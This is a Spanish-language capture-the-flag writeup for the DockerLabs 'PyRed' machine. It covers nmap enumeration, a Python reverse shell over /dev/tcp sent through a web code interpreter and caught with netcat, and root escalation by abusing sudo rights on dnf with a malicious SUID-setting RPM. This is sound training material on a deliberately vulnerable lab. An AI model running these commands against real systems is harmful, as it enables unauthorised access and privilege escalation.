

# Writeup de la máquina PyRed realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [DockerLabs](https://dockerlabs.es/)
- **Nivel de Dificultad**: Medio
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 02/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Técnicas utilizadas

- Abusar de un intérprete de Python en una página web para conseguir acceso no autorizado

- Abusar de un privilegio de **Sudoers** (Dandified Yum) con **GTFOBins** (Escalada de privilegios a root)

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL que es igual a 64, reconocemos que es una máquina Linux:

```
ping -c 1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```


Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```


## 2. Explotación

Según vemos en el escaneo, nos encontramos ante un servicio http, por lo cual vamos a acceder a dicho servicio a través del navegador:


Si realizamos comprobaciones, veremos que estamos ante un intérprete de código python en web, por lo que podemos probar a enviarnos una shell interactiva con python:

```
import os

os.system("bash -i &> /dev/tcp/<IP>/<PUERTO> 0>&1")
```


Nos ponemos en escucha por el puerto 443 usando netcat:

```
netcat -lvnp 443
```


Comprobamos que conseguimos el acceso:




## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. Como primera enumeración, vamos a ver que permisos tenemos asignados a nivel de sudoers:


**DNF** (Dandified YUM) es un gestor de paquetes utilizado en distribuciones Linux basadas en **Red Hat** como **Fedora**, **RHEL** y **CentOS**. Sus comandos permiten instalar, actualizar, eliminar y buscar paquetes, y se gestiona de manera más eficiente los repositorios y las configuraciones personalizadas en comparación con YUM.

Buscamos en GTFObins si ese permiso asignado puede conllevar una escalada de privilegios:


Viendo que podemos conseguir la escalada por este permiso, procedemos a realizar los pasos que indica GTFObins:


En la máquina atacante creamos un archivo .rpm malicioso que de permiso SUID a la bash:


Ahora subimos el paquete malicioso a la máquina víctima mediante http:

```
python -m http.server 80
```


Desde la máquina víctima obtenemos el recurso con curl (hay que asegurarse de estar en un directorio donde tengáis permisos de escritura):


Realizamos el último paso de GTFObins desde la máquina víctima:


Una vez completado comprobamos los permisos de la bash y vemos que se ha aplicado el cambio de permisos:


Ahora nos enviamos una shell privilegiada y accedemos como root:


